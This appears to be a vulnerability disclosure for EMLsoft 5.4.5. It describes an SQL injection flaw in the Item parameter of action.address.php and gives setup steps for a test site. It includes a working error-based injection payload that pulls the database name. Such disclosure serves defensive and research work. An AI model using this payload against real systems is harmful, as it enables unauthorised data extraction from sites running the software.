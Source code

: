 # SQL Injection Vulnerability In EMLsoft 5.4.5 #

Description:An issue was discovered in EMLsoft 5.4.5. upload\eml\action\action.address.php has SQL Injection via the Item parameter.

## 1.Technical Description: ##

Use the Google Chrome open this test site.download this version（```http://www.doilcn.com/d/file/net/code/2018-07/4640c2f5cb03ec2a899f0b88203d43b7.zip```) and build a test site.

![](20.png)

locate in /upload/eml/action/action.address.php line:182 to 200

![](24.png)
It can be seen that item has parameters, it is brought into the SQL statement for query, so SQL injection is generated.And we can try to find trigger it.Open this page.
![](21.png)

And intercept the data packets.
![](22.png)


Use the following poc:
```
item[]=2' AND (SELECT 5314 FROM(SELECT COUNT(*),CONCAT(0x7e,(MID((IFNULL(CAST(DATABASE() AS CHAR),0x20)),1,54)),0x7e,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'a'='a
```

Can see the incoming SQL statement, query the current database name.So it has SQL Injection via the Item parameter.
![](23.png)